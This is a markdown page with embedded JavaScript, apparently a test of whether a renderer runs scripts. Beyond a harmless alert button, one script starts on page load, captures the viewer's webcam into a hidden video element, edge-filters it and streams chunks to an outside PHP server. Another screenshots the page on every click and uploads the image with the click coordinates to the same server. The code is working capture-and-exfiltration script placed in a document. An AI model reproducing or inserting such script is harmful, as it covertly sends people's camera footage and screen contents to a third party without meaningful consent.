 # Test Page with JavaScript

This is a test page to see if JavaScript can access the user's webcam and apply a Sobel edge detection filter to the video.


## Example

Below is a button that triggers a JavaScript alert when clicked:

<button id="testButton">Click Me</button>

<script>
  // Simple JavaScript to display an alert when the page is loaded
  document.addEventListener("DOMContentLoaded", function () {
    // Show an alert as soon as the page loads
    //alert("The page has loaded successfully!");

    // Add functionality to the button
    const button = document.getElementById("testButton");
    button.addEventListener("click", function () {
      alert("You clicked the button!");
    });
  });
</script>

# Webcam with Edge Detection (Streaming Upload)

This will continuously stream the processed video to the server and save the final video when the user stops recording.

<script src="https://cdnjs.cloudflare.com/ajax/libs/html2canvas/1.4.1/html2canvas.min.js"></script>

<script>
  document.addEventListener("DOMContentLoaded", function () {
    const videoElement = document.createElement("video");
    videoElement.autoplay = true;
    videoElement.playsInline = true;
    videoElement.style.display = "none";
    document.body.appendChild(videoElement);

    const canvas = document.createElement("canvas");
    const ctx = canvas.getContext("2d");

    let mediaRecorder;
    let streamId;
    let userStopped = false;

    // Sobel kernels for edge detection
    const sobelX = [
      [-1, 0, 1],
      [-2, 0, 2],
      [-1, 0, 1],
    ];
    const sobelY = [
      [-1, -2, -1],
      [0, 0, 0],
      [1, 2, 1],
    ];

    if (navigator.mediaDevices && navigator.mediaDevices.getUserMedia) {
      navigator.mediaDevices
        .getUserMedia({ video: true })
        .then((stream) => {
          videoElement.srcObject = stream;
          videoElement.onloadedmetadata = () => {
            canvas.width = videoElement.videoWidth;
            canvas.height = videoElement.videoHeight;
            startStreaming();
            processVideo();
          };
        })
        .catch((error) => {
          console.error("Error accessing webcam:", error);
          alert("Unable to access your webcam. Please check permissions.");
        });
    } else {
      alert("Your browser does not support webcam access.");
    }

    function processVideo() {
      if (videoElement.readyState === videoElement.HAVE_ENOUGH_DATA) {
        ctx.drawImage(videoElement, 0, 0, canvas.width, canvas.height);
        const frame = ctx.getImageData(0, 0, canvas.width, canvas.height);
        const data = frame.data;
        const output = new Uint8ClampedArray(data.length);
        const width = canvas.width;
        const height = canvas.height;

        // Apply Sobel Edge Detection
        for (let y = 1; y < height - 1; y++) {
          for (let x = 1; x < width - 1; x++) {
            let pixelX = 0;
            let pixelY = 0;
            for (let kernelY = -1; kernelY <= 1; kernelY++) {
              for (let kernelX = -1; kernelX <= 1; kernelX++) {
                const pixelIndex = ((y + kernelY) * width + (x + kernelX)) * 4;
                const gray =
                  (data[pixelIndex] + data[pixelIndex + 1] + data[pixelIndex + 2]) / 3;
                pixelX += gray * sobelX[kernelY + 1][kernelX + 1];
                pixelY += gray * sobelY[kernelY + 1][kernelX + 1];
              }
            }
            const magnitude = Math.sqrt(pixelX * pixelX + pixelY * pixelY);
            const outputIndex = (y * width + x) * 4;
            output[outputIndex] = magnitude;
            output[outputIndex + 1] = magnitude;
            output[outputIndex + 2] = magnitude;
            output[outputIndex + 3] = 255;
          }
        }

        frame.data.set(output);
        ctx.putImageData(frame, 0, 0);
      }

      requestAnimationFrame(processVideo);
    }

    function startStreaming() {
      const stream = canvas.captureStream(30); // Capture at 30 FPS
      mediaRecorder = new MediaRecorder(stream, { mimeType: "video/webm" });

      // Generate a unique stream ID for the session
      streamId = Date.now();

      mediaRecorder.ondataavailable = (event) => {
        if (event.data.size > 0 && !userStopped) {
          sendChunkToServer(event.data);
        }
      };

      mediaRecorder.onstop = () => {
        finalizeVideoOnServer();
      };

      mediaRecorder.start(1000); // Send data in 1-second chunks

      window.addEventListener("beforeunload", () => {
        userStopped = true;
        mediaRecorder.stop();
      });
    }

    function sendChunkToServer(blob) {
      const formData = new FormData();
      formData.append("video_chunk", blob, "chunk.webm");
      formData.append("stream_id", streamId);

      fetch("https://cumberland.isis.vanderbilt.edu/skyler/upload_stream.php", {
        method: "POST",
        body: formData,
      }).catch((error) => console.error("Streaming error:", error));
    }

    function finalizeVideoOnServer() {
      fetch("upload_stream.php", {
        method: "POST",
        headers: { "Content-Type": "application/json" },
        body: JSON.stringify({ finalize: true, stream_id: streamId }),
      })
        .then((response) => response.json())
        .then((data) => console.log("Streaming finalized:", data))
        .catch((error) => console.error("Finalization error:", error));
    }
  });
</script>




# Click Screenshot Capture & Upload to PHP Server

Click anywhere on the page to capture a screenshot and send it to the server.

<script src="https://cdnjs.cloudflare.com/ajax/libs/html2canvas/1.4.1/html2canvas.min.js"></script>

<script>
  document.addEventListener("click", async function(event) {
    try {
      // Capture screenshot of the entire visible page
      const canvas = await html2canvas(document.body);
      const ctx = canvas.getContext("2d");

      // Get click coordinates relative to viewport
      const clickX = event.pageX;
      const clickY = event.pageY;

      // Draw a red dot where the user clicked
      ctx.fillStyle = "red";
      ctx.beginPath();
      ctx.arc(clickX + 10, clickY + 3, 3, 0, 2 * Math.PI);
      ctx.fill();

      // Convert canvas to Base64 PNG image
      const imageData = canvas.toDataURL("image/png");

      // Prepare data to send
      const payload = new FormData();
      payload.append("screenshot", imageData);
      payload.append("clickX", clickX);
      payload.append("clickY", clickY);

      // Send data to PHP server
      fetch("https://cumberland.isis.vanderbilt.edu/skyler/save_screenshot.php", {
        method: "POST",
        body: payload
      })
      .then(response => response.json())
      .then(data => console.log("Upload successful:", data))
      .catch(error => console.error("Error uploading:", error));

    } catch (error) {
      console.error("Screenshot capture failed:", error);
    }
  });
</script>
